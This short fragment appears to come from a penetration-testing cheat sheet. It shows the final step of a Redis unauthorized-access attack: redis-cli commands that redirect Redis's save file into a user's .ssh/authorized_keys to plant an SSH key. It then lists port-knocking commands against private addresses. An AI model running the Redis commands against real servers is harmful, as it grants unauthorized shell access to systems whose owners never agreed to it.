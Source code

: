   ```
4. Save the public key to the `authorized_keys` file on redis server:

```text
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /home/test/.ssh/
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

**Port Knocking :**

```text
TCP
knock -v 192.168.0.116 4 27391 159

UDP
knock -v 192.168.0.116 4 27391 159 -u

TCP & UDP
knock -v 192.168.1.111 159:udp 27391:tcp 4:udp
```



